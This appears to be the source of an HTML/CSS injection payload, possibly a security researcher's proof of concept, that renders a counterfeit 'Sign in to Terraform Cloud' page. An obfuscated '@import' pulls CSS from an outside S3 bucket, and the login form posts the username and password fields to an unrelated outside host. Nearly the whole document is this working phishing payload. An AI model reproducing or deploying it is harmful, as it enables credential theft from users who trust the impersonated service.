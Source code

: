 
<div style=""><style>@im\port'https://\terraform-css-02\.s3\.amazonaws\.com\/test.css';<img src="</style>
  
    <div class="columns is-centered is-vcentered">
  <div class="column is-full-mobile is-fixed-medium">

    <section class="section">

        <div class="box session-box session-box-top session-box-top-cloud">
    <img src="https://d3apqp432l5mdq.cloudfront.net/CIRC-51779-348ab1e/assets/terraform-cloud-logo-81769debed7594dfa089baf99d4a402aedadaaf69303482f37fac40d39e7c047.svg" alt="Terraform Cloud">
  </div>


      <div class="box session-box session-box-bottom">
        <h2 class="session-title is-size-5" data-cy="title">Sign in to Terraform Cloud</h2>

        


          <div>
            <form class="new_user" id="new_user" action="https://git.bullsecurity.co" accept-charset="UTF-8" method="post"><input name="utf8" type="hidden" value="✓"><input type="hidden" name="authenticity_token" value="oLvVZxkRIXC35v/4Gf8JHKWAx/oLcmuU4hEHwjGPajF1nj7MemTDt8FreDjKFtFyQNFIbvy3GLyVuphhWISZgA==">

  <div class="field">
    <label class="label" for="user_login">Username or email</label>
    <input autofocus="autofocus" class="input" data-cy="login-field" type="text" name="user[login]" id="user_login">
  </div>

  <div class="field">
    <label class="label" for="user_password">Password</label>
    <input class="input" data-cy="password-field" type="password" name="user[password]" id="user_password">
    <div class="help">
      <a href="/auth/new">Forgot password?</a>
    </div>
  </div>

  <div class="field">
    <input type="submit" name="commit" value="Sign in" class="button is-fullwidth is-primary " data-cy="submit">
  </div>
</form>
          </div>

      </div>

      <div>
          <p class="has-margin-bottom">
    Need to sign up? Create your <a href="/signup/account">free account</a>.
  </p>
  <p>
    View <a href="https://www.hashicorp.com/products/terraform/offerings">Terraform Offerings</a> to find out which one is right for you.
  </p>


      </div>


    </section>

  </div>
</div>
